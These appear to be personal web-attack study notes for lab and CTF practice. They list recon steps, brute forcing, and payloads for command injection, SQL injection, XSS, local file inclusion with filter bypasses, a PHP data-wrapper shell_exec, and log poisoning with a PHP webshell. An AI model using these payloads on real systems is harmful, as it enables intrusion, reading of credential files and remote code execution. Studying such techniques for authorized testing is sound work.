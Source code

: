 # Web Attacks!
## General Process:  

	  Always try to Find the Application Version!!
	  Tools:
	    burpsuite (set up w/ foxyproxy extension)
	    cookie editor extension
	  Things to Check:
		Source code
			comments, urls, hard-coded credentials, functions, etc.
		Browser Dev Tools->Network Headers->Response Headers->server versions, etc.
		Cookies
		Requests & responses in burpsuite -> try to break things & produce errors
		Input boxes:
			code injection ( ; id)
			sql injection (' or ")
			xss (<script>alert(‘XSS’)</script>)
		URLs: look for strange parameters, file extensions, etc.
		Anywhere to edit content? - php themes, etc.
		Anywhere to upload files? - profile picture, plugins, etc.  
	Web Roots:
		Linux: /var/www/html
		FreeBSD: /usr/local/www/apache24/data
	Apache Vhosts File:  /etc/apache2/sites-enabled/000-default.conf
	Nginx Vhosts File:  /etc/nginx/sites-enabled/default
	OpenBSD httpd config file:  /etc/httpd.conf

## Admin Consoles:  

	Look up default credentials
	See password attacks page
		brute force, try scraping from website
		Creating brute-force password lists: Crunch, Cewl (website-crawler)
		Scraping emails from website:  cewl -n -e --email_file mailid.txt http://sneakycorp.htb
	PHP login bypass in burpsuite:  username=admin&password[]=

## URL Techniques:  

    LFI/Directory Traversal:  php 'include' statement means code is executed            
        ex. ?page=/../../../../../etc/passwd OR ?file=c:\windows\system32\drivers\etc\hosts 
        See LFI Interesting Files
		Windows:  https://notchxor.github.io/oscp-notes/4-win-privesc/15-LFI-FILES/
	Other Notable Targets:
		/proc/self/cmdline
		/proc/self/environ
		/proc/self/cwd/...
        LFI Cheat Sheat/reverse shell methods:  https://highon.coffee/blog/lfi-cheat-sheet/  
        PHP Wrapper Method:
		Cheat sheet:  https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers-and-protocols
        	ex. http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
	Filter Bypass Examples:  
		req.params["0"].split("../").join("")  ->  ....//....//....//....//....//etc//passwd
		../../../../../boot.ini%00.jpg
		../../../../../etc/passwd%0a.jpg
		../../../../../etc/passwd%00
    LFI TO RCE:
        Log poisoning
            See what logs you can include, then figure out how to get that service to log your request
            ex. log into ftp server with user of '<? php system($_GET['cmd']); ?>' , then lfi the var/log/vsftpd.log